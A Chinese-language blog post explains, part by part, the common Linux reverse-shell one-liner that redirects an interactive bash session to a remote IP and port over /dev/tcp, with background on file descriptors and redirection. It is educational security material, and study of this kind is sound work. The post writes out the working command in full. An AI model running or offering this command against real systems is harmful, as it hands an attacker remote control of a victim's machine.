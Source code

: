 ```yaml
---
title: 关于Linux下反弹Shell命令的解释
date: 2021-04-28 16:07:58
tags:
- 基础
---
```


Linux下反弹shell最常用的一句命令：

``` shell
bash -c 'exec bash -i &>/dev/tcp/192.168.1.1/1337 <&1'
```

对这条命令的理解，以我个人经历而言，大概分为几个阶段
1. 知道怎么用，但是记不住，用的时候就百度；
2. 大概背过了，也能理解命令某些部分的含义，但仍然不清不楚；
3. 完全理解了命令的每一部分的含义，可以脱离死记硬背，并写出不同形式的命令；

说来惭愧，入行多年了，今天才完成第三步，这里仅作一次记录。
详细原理三言两语较难说清，这里简单提炼一下主要知识点。

--------------------

前置理论：
1. **Linux下的一切都是文件**；
2. Linux中的文件描述符：
 - 标准输入 - 0 （默认设备键盘）
 - 标准输出 - 1 （默认设备显示器）
 - 错误输出 - 2 （默认设备显示器）
3. bash 在执行一条指令的时候，首先会检查命令中存不存在重定向的符号，如果存在那么首先将文件描述符重定向，然后在把重定向去掉，执行指令。

------------------

那么，下面简单拆解一下反弹shell的命令
`bash -c`：不解释了；
`bash -i`：表示启动一个交互式的Shell；
`&>`：表示将所有输出重定向；
`/dev/tcp/ip/port`：表示目标的地址*(Linux下一切皆是文件)*；
`<&1`：表示将标准输入重定向至标准输出的目标；

简而言之，`&>`实现了命令输入在攻击端完成，`<&1`实现了命令结果输出在攻击端。

---------------------

参考资料：

- [《鸟哥的Linux私房菜》](https://item.jd.com/12443890.html)
- [Linux反弹shell（一）文件描述符与重定向](https://www.k0rz3n.com/2018/08/05/Linux%E5%8F%8D%E5%BC%B9shell%EF%BC%88%E4%B8%80%EF%BC%89%E6%96%87%E4%BB%B6%E6%8F%8F%E8%BF%B0%E7%AC%A6%E4%B8%8E%E9%87%8D%E5%AE%9A%E5%90%91/)
- [Linux 反弹shell（二）反弹shell的本质](https://www.k0rz3n.com/2018/08/05/Linux%20%E5%8F%8D%E5%BC%B9shell%20%EF%BC%88%E4%BA%8C%EF%BC%89%E5%8F%8D%E5%BC%B9shell%E7%9A%84%E6%9C%AC%E8%B4%A8/)

